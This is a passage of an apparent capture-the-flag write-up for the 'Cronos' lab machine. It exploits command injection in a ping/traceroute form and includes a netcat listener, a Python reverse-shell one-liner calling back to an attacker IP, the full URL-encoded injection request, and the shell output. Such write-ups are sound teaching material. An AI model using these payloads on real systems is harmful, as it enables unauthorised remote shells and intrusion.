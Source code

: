 ![Welcome page](/Screenshot%202025-03-01%20141527.png) 

## Executing command
The page proposes 2 commands: traceroute and ping.

![commands](/Screenshot%202025-03-01%20174536.png)

# Exploitation

## Command Injection
Let's try some simple command injection in the host parameter.
On my local machine let's start a reverse shell listener with netcat

```bash
nc -lvnp 4444
```

Let's use this payload from https://www.revshells.com/

```bash
export RHOST="10.10.14.21";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

The exploit request would be

```bash
POST /welcome.php HTTP/1.1
Host: admin.cronos.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 131
Origin: http://admin.cronos.htb
Connection: keep-alive
Referer: http://admin.cronos.htb/welcome.php
Cookie: PHPSESSID=9e9rvgnbs3mhscgb5bcgbh83p1
Upgrade-Insecure-Requests: 1
Priority: u=0, i

command=ping+-c+1&host=10.10.14.21;export+RHOST%3d"10.10.14.21"%3bexport+RPORT%3d4444%3bpython3+-c+'import+sys,socket,os,pty%3bs%3dsocket.socket()%3bs.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))%3b[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)]%3bpty.spawn("sh")'
```

Which gives us the reverse shell

```bash
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.13] 46334
$ whoami
whoami
www-data
$ cat /home/noulis/user.txt
cat /home/noulis/user.txt
{flag}
```
